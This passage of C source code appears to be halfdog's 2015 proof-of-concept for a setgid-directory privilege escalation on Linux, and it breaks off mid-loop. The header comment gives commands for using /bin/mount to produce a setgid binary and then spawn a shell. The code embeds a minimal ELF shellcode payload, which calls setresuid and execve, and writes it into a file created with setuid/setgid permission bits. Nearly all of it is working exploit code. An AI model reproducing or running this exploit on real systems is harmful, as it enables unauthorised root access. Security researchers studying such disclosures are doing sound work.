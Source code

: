  *
 *  # ./CreateSetgidBinary ./escalate /bin/mount x nonexistent-arg
 *  # ls -al ./escalate
 *  # ./escalate /bin/sh
 *
 *  Copyright (c) 2015 halfdog <me (%) halfdog.net>
 *
 *  See http://www.halfdog.net/Security/2015/SetgidDirectoryPrivilegeEscalation/ for more information.
 */

#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/resource.h>
#include <unistd.h>
#include <sys/wait.h>

int main(int argc, char **argv) {
// No slashes allowed, everything else is OK.
  char suidExecMinimalElf[] = {
      0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
      0x80, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0xf8, 0x00, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x02, 0x00, 0x28, 0x00,
      0x05, 0x00, 0x04, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
      0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0xa2, 0x00, 0x00, 0x00,
      0xa2, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
      0x01, 0x00, 0x00, 0x00, 0xa4, 0x00, 0x00, 0x00, 0xa4, 0x90, 0x04, 0x08,
      0xa4, 0x90, 0x04, 0x08, 0x09, 0x00, 0x00, 0x00, 0x09, 0x00, 0x00, 0x00,
      0x06, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x31, 0xc0, 0x89, 0xc8,
      0x89, 0xd0, 0x89, 0xd8, 0x04, 0xd2, 0xcd, 0x80, 0x31, 0xc0, 0x89, 0xd0,
      0xb0, 0x0b, 0x89, 0xe1, 0x83, 0xc1, 0x08, 0x8b, 0x19, 0xcd, 0x80
  };

  int destFd=open(argv[1], O_RDWR|O_CREAT, 07777);
  if(destFd<0) {
    fprintf(stderr, "Failed to open %s, error %s\n", argv[1], strerror(errno));
    return(1);
  }

  char *suidWriteNext=suidExecMinimalElf;
  char *suidWriteEnd=suidExecMinimalElf+sizeof(suidExecMinimalElf);
  while(suidWriteNext!=suidWriteEnd) {
    char *suidWriteTestPos=suidWriteNext;
    while((!*suidWriteTestPos)&&(suidWriteTestPos!=suidWriteEnd))
      suidWriteTestPos++;
// We cannot write any 0-bytes. So let seek fill up the file wihh
// null-bytes for us.
    lseek(destFd, suidWriteTestPos-suidExecMinimalElf, SEEK_SET);
    suidWriteNext=suidWriteTestPos;
    while((*suidWriteTestPos)&&(suidWriteTestPos!=suidWriteEnd))
      suidWriteTestPos++;
